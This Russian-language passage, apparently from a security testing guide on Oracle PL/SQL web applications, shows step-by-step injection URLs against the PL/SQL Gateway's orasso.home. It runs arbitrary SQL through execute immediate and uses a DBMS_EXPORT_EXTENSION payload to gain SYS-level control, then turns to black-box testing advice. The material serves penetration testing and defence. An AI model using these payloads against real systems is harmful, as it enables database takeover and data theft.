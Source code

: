 Обратите внимание на наличие FOO в строке запроса злоумышленника. Можно эксплуатировать это для запуска произвольного SQL. Во-первых, нужно закрыть скобки:

`http://server.example.com/pls/dad/orasso.home?);--=BAR`

Это приводит к выполнению следующего PL/SQL:

```sql
..
orasso.home();--=>:);--);
..
```

Обратите внимание, что всё, что стоит после двойного минуса (`--`) рассматривается как комментарий. Этот запрос вызовет внутреннюю ошибку сервера, поскольку одна из связанных переменных больше не используется, поэтому злоумышленнику необходимо вернуть её. Как оказалось, именно эта связанная переменная является ключом к запуску произвольного PL/SQL. В данном случае можно просто использовать `HTP.PRINT` для печати BAR и добавить требуемую связанную переменную как :1:

`http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR`

Запрос должен вернуть `200` со словом "BAR" в HTML. Всё, что после знака равенства (BAR в данном случае) — данные, вставленные в связанную переменную. Используя тот же метод, можно снова получить доступ к `owa_util.cellsprint`:

`http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS`

Чтобы выполнить произвольный SQL, включая инструкции DML и DDL, злоумышленник вставляет execute immediate :1

`http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual`

Обратите внимание, что вывод отображаться не будет. Это можно использовать в PL/SQL-инъекциях от имени SYS, что позволяет злоумышленнику получить полный контроль над сервером базы данных. Например, следующий URL эксплуатирует SQL-инъекцию в `DBMS_EXPORT_EXTENSION`

```sql
http://www.example.com/pls/dad/orasso.home?);
execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20
BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20
PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';
END;--','SYS',1,'VER',0);END;
```

### Оценка пользовательских web-приложений PL/SQL

Во время оценки защищённости методом «чёрного ящика» код пользовательского приложения PL/SQL недоступен, но его всё же необходимо протестировать на наличие уязвимостей.

#### Тестирование на наличие SQL-инъекций

Каждый входной параметр должен быть протестирован на наличие SQL-инъекций. Их легко найти и подтвердить. Найти их не сложнее, чем вставить одинарную кавычку в параметр и проверить ответ на ошибки (включая 404 Not Found). Подтверждение наличия SQL-инъекций можно выполнить с помощью оператора конкатенации.
